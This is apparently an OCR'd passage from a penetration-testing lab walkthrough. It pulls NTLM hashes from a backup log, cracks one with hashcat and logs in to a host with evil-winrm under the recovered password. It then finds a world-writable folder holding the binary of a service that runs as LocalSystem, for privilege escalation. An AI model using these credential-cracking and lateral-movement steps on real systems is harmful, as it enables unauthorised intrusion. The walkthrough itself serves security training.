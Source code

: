 # joe Documents fileMonitorbackup.loh
PS C:\Users\joe\Documents> type fileMonitorBackup.log
...
Backup      daisy      6872 Backup Completed. NTLM: abf36048c1cf88f5603381c5128feb8e 
Backup      toad       6872 Backup Completed. NTLM: 5be63a865b65349851c1f11a067a3068  
Backup      wario      6872 Backup Completed. NTLM: fdf36048c1cf88f5630381c5e38feb8e
Backup      goomba     6872 Backup Completed. NTLM: 8e9e1516818ce4e54247e71e71b5f436
...
# Lets crack them using hashcat
code user-ntlm.hash
# wario
fdf36048c1cf88f5630381c5e38feb8e:Mushroom!                                     
Session..........: hashcat
Status...........: Cracked

# Based on the Console Host History, we know wario can access to the CLIENT02. Lets try to access it using evilwinrm
proxychains -q  evil-winrm -i 172.16.219.83 -u wario -p 'Mushroom!'
*Evil-WinRM* PS C:\Users\wario\Desktop> type local.txt
97e71ac29c6a43778ab6f2488a34490f
*Evil-WinRM* PS C:\DevelopmentExecutables> ls
-a----         10/5/2022  11:05 PM          25600 auditTracker.exe
*Evil-WinRM* PS C:\DevelopmentExecutables> icacls .
...
. Everyone:(OI)(CI)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(F)
  NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
  BUILTIN\Users:(I)(OI)(CI)(RX)
  NT AUTHORITY\Authenticated Users:(I)(M)
  NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)
...
# Everyone have full access
# We can query the serviceConfig
*Evil-WinRM* PS C:\DevelopmentExecutables> cmd /c sc qc auditTracker
...
SERVICE_NAME: auditTracker
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\DevelopmentExecutables\auditTracker.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : auditTracker
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
...
